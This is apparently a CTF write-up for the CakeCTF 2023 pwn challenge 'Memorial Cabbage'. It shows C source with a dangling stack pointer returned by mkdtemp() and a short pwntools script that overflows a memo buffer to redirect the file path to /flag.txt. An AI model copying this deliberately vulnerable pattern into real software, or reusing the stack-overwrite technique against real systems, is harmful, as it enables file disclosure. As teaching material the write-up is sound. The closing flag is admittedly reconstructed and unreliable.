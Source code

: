 ```yaml
---
title: Memorial Cabbage
date: 2023-11-23T23:24:31+02:00
description: Writeup for Memorial Cabbage [Cakectf 2023]
type: writeup
author: sunbather
tags:
- pwn
draft: false
---
```

___

## Challenge Description

Author: ptr-yudai
Description: Memorial Cabbage Unit 3

## Intuition

We can see the below source code for the challenge. It creates a temporary directory using template ``/tmp/cabbage.XXXXXX`` and then uses it to write a memo to it (``/tmp/cabbage.XXXXXX/memo.txt``).

However, what is interesting to notice in the manpage for ``mkdtemp()`` is that you're supposed to give a modifiable buffer:

```
DESCRIPTION
       The  mkdtemp() function generates a uniquely named temporary directory from template.  The last six characters of template must be XXXXXX and these are replaced with a string that makes the directory name unique.  The directory is then created with permissions 0700.
       Since it will be modified, template must not be a string constant, but should be declared as a character array.

RETURN VALUE
       The mkdtemp() function returns a pointer to the modified template string on success, and NULL on failure, in which case errno is set appropriately.
```

The pointer returned by it will be pointing towards the buffer you gave it. If you give it a stack buffer (like in the source code provided), when the function frame is finished it should be out of scope and might get overwritten by other stack allocations. We can exploit this by writing as much content as we can until we hit the directory name that was saved on the stack, which is further used when reading/writing to the memo file. We can overwrite the directory name to ``/flag.txt\x00``, which is smaller in size than ``strlen(TEMPDIR_TEMPLATE)``. This means that the second strcpy in both ``memo_r()`` and ``memo_w()`` won't have an effect on our chosen filename, as it will copy ``/memo.txt`` somewhere after our filename and fopen will stop at the first NULL byte (provided by us in the filename).

Therefore, this should open ``/flag.txt`` and read the flag for us. We can find all the offsets needed in multiple ways, through calculating offsets by finding the addresses with GDB and then using simple substractions, or we can use De Bruijn sequences, etc.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define TEMPDIR_TEMPLATE "/tmp/cabbage.XXXXXX"

static char *tempdir;

void setup() {
  char template[] = TEMPDIR_TEMPLATE;

  setvbuf(stdin, NULL, _IONBF, 0);
  setvbuf(stdout, NULL, _IONBF, 0);

  if (!(tempdir = mkdtemp(template))) {
    perror("mkdtemp");
    exit(1);
  }
  if (chdir(tempdir) != 0) {
    perror("chdir");
    exit(1);
  }
}

void memo_r() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "r")))
    return;
  fgets(buf, sizeof(buf) - 1, fp);
  fclose(fp);

  printf("Memo: %s", buf);
}

void memo_w() {
  FILE *fp;
  char path[0x20];
  char buf[0x1000];

  printf("Memo: ");
  if (!fgets(buf, sizeof(buf)-1, stdin))
    exit(1);

  strcpy(path, tempdir);
  strcpy(path + strlen(TEMPDIR_TEMPLATE), "/memo.txt");
  if (!(fp = fopen(path, "w")))
    return;
  fwrite(buf, 1, strlen(buf), fp);
  fclose(fp);
}

int main() {
  int choice;

  setup();
  while (1) {
    printf("1. Write memo\n"
           "2. Read memo\n"
           "> ");
    if (scanf("%d%*c", &choice) != 1)
      break;
    switch (choice) {
      case 1: memo_w(); break;
      case 2: memo_r(); break;
      default: return 0;
    }
  }
}
```

## Solution

```py
#!/usr/bin/env python3

from pwn import *

offset_to_filename = 0xff0  # found with gdb

target = process("./cabbage")
#target = remote("memorialcabbage.2023.cakectf.com", 9001)

target.sendlineafter(b"> ", b"1")
target.sendlineafter(b"Memo: ", b"a" * offset_to_filename + b"/flag.txt\x00")

target.sendlineafter(b"> ", b"2")
target.interactive()
```

### Flag

CakeCTF{.hidden_baby_we_eating_this_cabbage_cake}

(we lost the original flag lol and are writing this waaaay later)
